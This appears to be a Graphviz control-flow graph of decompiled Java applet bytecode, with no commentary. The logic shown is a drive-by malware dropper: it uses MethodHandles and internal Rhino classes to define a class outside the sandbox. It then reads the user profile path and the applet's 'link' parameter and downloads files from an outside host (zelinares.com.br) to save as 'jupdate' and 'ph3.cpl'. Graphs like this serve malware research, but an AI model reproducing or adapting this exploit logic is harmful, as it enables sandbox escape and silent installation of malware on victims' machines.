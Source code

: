 digraph "" {
    "r0 := @this: amor"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: amor"->"new java.io.ByteArrayOutputStream";
    "store.r r2"
    "new java.io.ByteArrayOutputStream"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r2"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "load.r r0"
    "store.r r9"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"B.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"B.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"B.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "load.r r9"
    "load.r r1"->"load.r r9";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r9"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r6"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r6";
    "load.i r6"
    "store.i r6"->"load.i r6";
    "ifle load.r r2"
    "load.i r6"->"ifle load.r r2";
    "ifle load.r r2"->"load.r r2";
    "load.r r2"->"load.r r9";
    "push 0"
    "load.r r9"->"push 0";
    "push 0"->"load.i r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r6"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"->"goto load.r r1";
    "store.r r0"
    "goto load.r r1"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifle load.r r2"->"load.r r2";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r2"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r1";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "store.r r1"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "load.r r0"->"load.r r2";
    "push class \"Ljava/lang/Class;\""
    "load.r r2"->"push class \"Ljava/lang/Class;\"";
    "push \"forName\""
    "push class \"Ljava/lang/Class;\""->"push \"forName\"";
    "push \"forName\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/String;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "dup1.r"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findStatic(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "push 0"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "arraywrite.r"
    "push \"sun.org.mozilla.javascript.internal.Context\""->"arraywrite.r";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "store.r r5"
    "checkcast"->"store.r r5";
    "store.r r5"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "push 0"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "store.r r6"
    "checkcast"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r6"->"load.r r2";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r2"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findConstructor\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findConstructor\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push \"findConstructor\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r9";
    "push 3"
    "store.r r9"->"push 3";
    "push 3"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "load.r r11"
    "store.r r11"->"load.r r11";
    "load.r r11"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"push 1";
    "load.r r5"
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "push 2"
    "load.r r11"->"push 2";
    "push 2"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r11";
    "store.r r11"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findVirtual\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findVirtual\"";
    "push \"findVirtual\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r9";
    "load.r r9"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r9";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r9"->"push class \"Ljava/lang/ClassLoader;\"";
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r14"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r14";
    "store.r r14"->"load.r r9";
    "load.r r9"->"load.r r5";
    "load.r r14"
    "load.r r5"->"load.r r14";
    "load.r r14"->"load.r r2";
    "virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>"
    "load.r r2"->"virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>";
    "virtualinvoke <amor: java.lang.invoke.MethodHandle gMH(java.lang.invoke.MethodHandle,java.lang.Class,java.lang.invoke.MethodType,java.lang.invoke.MethodHandles$Lookup)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 1";
    "push null"
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r11";
    "push 4"
    "store.r r11"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r14";
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "push 1"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 3";
    "push 3"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "push \"SRESULLA\""
    "load.r r0"->"push \"SRESULLA\"";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"
    "push \"SRESULLA\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "push \"ELIFORP\""
    "load.r r0"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"push null";
    "push null"->"store.r r1";
    "store.r r1"->"push 0";
    "store.b r2"
    "push 0"->"store.b r2";
    "store.b r2"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r9";
    "store.r r9"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"store.r r5";
    "store.r r5"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r2";
    "store.b r2"->"load.r r0";
    "load.r r0"->"load.r r9";
    "load.r r9"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r5";
    "load.b r2"
    "load.r r5"->"load.b r2";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r2"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"load.r r0";
    "push \"http://zelinares.com.br/x4.gif\""
    "load.r r0"->"push \"http://zelinares.com.br/x4.gif\"";
    "push \"http://zelinares.com.br/x4.gif\""->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\ph3.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\ph3.\"";
    "push \"\\ph3.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"cpl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"cpl\"";
    "push \"cpl\""->"push 1";
    "push 1"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "store.b r2"->"load.r r0";
    "load.r r0"->"load.r r6";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r6"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r1";
    "goto load.r r0"
    "store.r r1"->"goto load.r r0";
}
